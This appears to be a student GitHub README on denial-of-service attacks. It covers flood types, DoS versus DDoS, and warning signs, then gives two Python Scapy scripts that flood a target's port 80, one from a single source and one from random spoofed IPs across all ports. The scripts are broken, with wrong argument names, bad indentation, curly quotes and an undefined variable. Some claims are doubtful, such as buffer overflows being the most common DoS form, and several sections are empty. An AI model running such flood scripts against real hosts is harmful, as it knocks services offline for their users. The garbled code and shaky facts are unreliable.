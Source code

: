 # Denial-of-Service (DoS) attack

*Zhen Meng, Zhixin Han*

## Background of DoS

A Denial-of-Service (DoS) attack is a malicious, targeted attack that floods a network with false requests in order to disrupt business operations.

![alt text](what-is-ddos-botmaster.png)

## DoS Attack in Real Life

DoS attacks can cost an organization both time and money, because their resources and services are inaccessible during that time. 
Not only will you be put out of action for quite a while, but a successful DoS attack can also cause the systems to fail. 

Unlike cyberattacks that steals sensitive information or money, initial DDoS attacks are launched to make websites inaccessible to their users. DoS and DDoS attacks are also used to draw attention away so that hackers can launch secondary attacks elsewhere.

A famous example of DDOS attack happened to AWS, it was hit by a large DDoS attack in February 2020. The attack lasted for three days and peaked at 2.3 terabytes per second. [Click here for more information](https://www.a10networks.com/blog/aws-hit-by-largest-reported-ddos-attack-of-2-3-tbps/)

## Types of DoS attack

Generally, DoS attack fall in two categories, some of them crash web-based services and others flood the service instead. Within those two categories, there are many different subgroups, they varies based on the methods of attackers, the equipment being targeted and so on. 

### Buffer Overflow attacks

This is the most common form of DoS attack. A buffer overflow type of attack can cause a machine to consume all available hard disk space, memory, or CPU time. The memory storage holds temporary data being transferred will alse be consumed. 

![alt text](buffer-overflow.png)

### Flood attacks

By saturating a targeted server with an overwhelming amount of packets, a malicious actor is able to oversaturate server capacity, resulting in denial-of-service. 

- ICMP Floods

Also called smurf or ping attacks. It focus on exploiting misconfigured network devices. In these attacks, attackers send spoofed packets or the false IP addresses that pings every computer on the targeted network. The network will face a surge in traffic, the system becomes flooded with responses from the malicious packet.

- SYN Floods

This type of folld attack exploits the Transmission Control Protocol (TCP) handshake, which is used for the TCP network to create a connection with a local host/server. In a SYN flood, a connection request to a server, but the handshake will be left imcomplete. These requests keep the host in an occupied status. Legitimate users will be prevented from connecting to the network when all the ports are saturated. Below is an illustration of TCP handshake.

![alt text](TCP-connection-1.png)


## DoS attack vs. DDoS attack

The primary distinction between them is where the attack originated. A DDoS attack is a coordinated attack launched from various locations by multiple systems at the same time, whereas a DoS attack is a single attack.DDoS attacks are the most powerful and difficult to detect internet attacks. The reason  is that they are introduced from multiple locations in order to hide their identities and prevent the victim from identifying the main source of the attack. As a result, distinguishing between genuine and fake network traffic is impossible.

![alt text](dos-ddos-compare.png）

## Identify DoS Attack

**Common indicators:**
- Slow network performance for common tasks
- Inability to access online resources
- An interruption or loss in connectivity


## Methods to Reduce the Risk of a DoS attack

## DoS attack Implementation

### Single IP single port

A large number of packets are sent to web server by using _single IP_ and from _single port number_. 

Using a for loop a large number of packets are sending to web server using single IP from single port number. Normally,it is a low level attack to test the web server’s behavior.

```
from scapy.all import *
source_IP = input("Enter IP address of Source: ")
target_IP = input("Enter IP address of Target: ")
source_port = int(input("Enter Source Port Number:"))
i = 1

while True:
   IP1 = IP(source_IP = source_IP, destination = target_IP)
   TCP1 = TCP(srcport = source_port, dstport = 80)
   pkt = IP1 / TCP1
   send(pkt, inter = .001)
   
   print ("packet sent ", i)
      i = i + 1
```

### Multiple IP multiple port 

A large number of packets are sent to web server by using _multiple IPs_ and from _multiple ports_. 

Using while loop to creat multiple IP addresses and ports to send large numbers of packets simutaneously to attack victims’ Ip address.


```
Import random
from scapy.all import *
target_IP = input("Enter IP address of Target: ")
i = 1

while True:
   a = str(random.randint(1,254))
   b = str(random.randint(1,254))
   c = str(random.randint(1,254))
   d = str(random.randint(1,254))
   dot = “.”
   Source_ip = a + dot + b + dot + c + dot + d
   
   for source_port in range(1, 65535)
      IP1 = IP(source_IP = source_IP, destination = target_IP)
      TCP1 = TCP(srcport = source_port, dstport = 80)
      pkt = IP1 / TCP1
      send(pkt,inter = .001)
      
      print ("packet sent ", i)
         i = i + 1
```

## DoS Tools and Performance

### HULK

### Wireshark
